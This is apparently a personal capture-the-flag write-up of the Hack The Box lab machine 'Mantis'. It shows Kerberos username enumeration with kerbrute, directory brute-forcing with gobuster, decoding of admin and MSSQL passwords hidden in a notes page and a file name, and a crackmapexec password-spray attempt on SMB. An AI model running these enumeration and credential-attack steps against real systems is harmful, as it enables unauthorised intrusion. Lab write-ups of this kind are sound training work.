 
```
Domain Name: HTB                                                              
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657
```

```
kerbrute userenum -d htb.local --dc 10.10.10.52 userlist.txt -t 100
```

```
james@htb.local
James@htb.local
administrator@htb.local
mantis@htb.local
JAMES@htb.local
Administrator@htb.local
Mantis@htb.local
```

![[Pasted image 20240515233953.png]]


We have to go Old School as this machine is hard and we need a entry point to get into.
We have 2 domain controller and 3 http sites which simply means that we have to do directory busting.

```
http://10.10.10.52:1337/secure_notes/
```


```
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
![[Pasted image 20240516003001.png]]

We already have the valid user names so in short we have the usernames and all we need is a password to get into.


```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.


Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

If you the file names seems fishy to mee
```
ev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
```


It's some kind of password
```
6d2424716c5f53405f504073735730726421
```
![[Pasted image 20240516005334.png]]


We got the password of the MS-SQL user.
```
m$$ql_S@_P@ssW0rd!
```
![[Pasted image 20240516005420.png]]

I just want to see if we can login with this into smb but failed
```
crackmapexec smb 10.10.10.52 -u ~root/HackTheBox/Mantis/valid_user.txt -p m$$ql_S@_P@ssW0rd!
```


We have to login into the sql server and i have to find the command for it

Tried this command but it didn't worked
```
mysql -h 10.10.10.52 -P 50255 -u admin -p 'm$$ql_S@_P@ssW0rd!'
```

I have installed a GUI base software to handle this stuff
![[Pasted image 20240516011427.png]]


![[Pasted image 20240516013029.png]]


```
Hostname: 10.10.10.52
Database: orcharddb
Password: m$$ql_S@_P@ssW0rd!
```